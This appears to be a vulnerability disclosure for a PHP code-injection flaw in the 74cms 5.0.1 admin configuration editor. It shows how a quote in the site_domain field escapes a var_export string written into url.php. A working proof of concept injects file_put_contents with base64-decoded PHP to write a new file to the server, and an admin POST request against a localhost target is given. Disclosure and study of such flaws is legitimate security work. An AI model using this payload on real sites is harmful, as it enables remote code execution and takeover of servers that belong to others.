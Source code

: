 `CONF_PATH in /ThinkPHP/ThinkPHP.php Line 54: CONF_PATH.'url.php' -> /Application/Common/Conf/url.php`


```php
defined('COMMON_PATH')  or define('COMMON_PATH',    APP_PATH.'Common/'); // 应用公共目录
defined('CONF_PATH')    or define('CONF_PATH',      COMMON_PATH.'Conf/');
define('APP_PATH','./Application/');
```

var_export(): Quote string with slashes&Convert special characters to HTML entities -> stripslashes(): un-quotes a quoted string -> Convert special characters to HTML entities -> write file

`file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";", LOCK_EX);`

/Application/Home/Conf/url.php: The code after "return array(...);" does not work, so payload is site_domain=', {your php code},'


```php
<?php 
return array (
  'URL_MODEL' => 0,
  'URL_HTML_SUFFIX' => '.html',
  'URL_PATHINFO_DEPR' => '/',
  'URL_ROUTER_ON' => true,
  'URL_ROUTE_RULES' => 
  array (
    '/^jobfair\/(?!admin)(\w+)$/' => 'jobfair/index/:1',
    '/^mall\/(?!admin)(\w+)$/' => 'mall/index/:1',
  ),
  'QSCMS_VERSION' => '5.0.1',
  'QSCMS_RELEASE' => '2019-03-19 00:00:00',
  'SESSION_OPTIONS' => 
  array (
    'domain' => '.0.1',
    0 => 18,
    1 => '',
    'path' => 'D:\***\***\***\WWW\74cms\data\session',
  ),
  'COOKIE_DOMAIN' => '.0.1',
  0 => 18,
  1 => '',
);
```

**POC:**

`<?php phpinfo();?> -> PD9waHAgcGhwaW5mbygpOz8+`

`site_domain=', file_put_contents('403.php',base64_decode('PD9waHAgcGhwaW5mbygpOz8+')),'`


```bash
POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 465
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default

```